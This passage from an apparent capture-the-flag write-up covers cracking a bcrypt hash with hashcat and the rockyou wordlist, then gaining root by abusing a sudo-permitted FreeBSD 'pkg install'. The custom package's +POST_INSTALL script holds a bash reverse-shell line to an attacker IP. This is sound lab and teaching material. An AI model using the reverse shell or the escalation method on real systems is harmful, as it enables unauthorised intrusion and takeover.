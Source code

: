 Let's run hashcat :

```
hashcat -a 0 -m 3200 hash.txt rockyou.txt
```

We have a match ! 

| Hash                                                         | Hash(Cracked) |
| ------------------------------------------------------------ | ------------- |
| $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx | !QAZ2wsx      |

Let's try to log in as jamie now.

![image-20210407134949008](img/image-20210407134949008.png)

### Root

Let's do the classical `sudo -l` :

![image-20210407150941192](img/image-20210407150941192.png)

We can use pkg install which probably means that we need to install a custom package.

Using `pkg help install` you can see there is a function to disable scripts.

![image-20210408113206466](img/image-20210408113206466.png)

Using a proper tutorial found here http://lastsummer.de/creating-custom-packages-on-freebsd/ we can create our custom payload to get a reverse shell. Juste copy/paste the code found on the website and modify a line in `+POST_INSTALL` like this : 

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/1234 <&1'
```

Execute the script and you should get a package : 

![image-20210408113543196](img/image-20210408113543196.png)
